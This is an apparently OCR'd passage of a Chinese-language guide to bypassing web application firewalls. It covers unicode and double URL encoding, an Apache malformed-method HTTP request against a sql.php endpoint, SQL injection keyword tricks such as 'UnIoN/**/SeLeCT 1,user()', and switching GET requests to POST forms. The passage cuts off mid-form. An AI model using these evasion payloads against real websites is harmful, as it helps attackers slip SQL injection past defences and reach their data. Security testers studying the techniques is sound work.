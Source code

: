 c --\>%u0043 --\> %u0063

t --\>%u0054 --\>%u0074 --\>%u00de --\>%u00fe

f --\>%u0046 --\>%u0066

r --\>%u0052 --\>%u0072

m --\>%u004d --\>%u006d

4. apache畸形method

在GET请求中，GET可以替换为任意参数名字，不影响apache接收参数。

TEST /sql.php?id=1 HTTP/1.1

Host: 127.0.0.1

User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101
Firefox/48.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,\*/\*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3

Accept-Encoding: gzip, deflate

Connection: close

Upgrade-Insecure-Requests: 1

应用层特性

1.大小写/关键字替换

绕过只针对特定关键字，大小写不敏感。

id=1 UnIoN/\*\*/SeLeCT 1,user()

将关键字进行等价替换：

Hex() bin() 等价于ascii()

Sleep() 等价于 benchmark()

Mid()substring() 等价于 substr()

\@\@user 等价于 User()

\@\@Version 等价于 version()

2.双重url编码

s -\> %73 -\> %25%37%33

一般情况下在代码层默认做一次url解码，这样解码之后的数据一般不会匹配到规则，达到了bypass的效果

3.变换请求方式

将GET变成POST提交

\<html\>\<head\>\</head\>\<body\>

\<form action="http://192.168.204.128/test.php" method="post"
enctype="multipart/form-data"\>
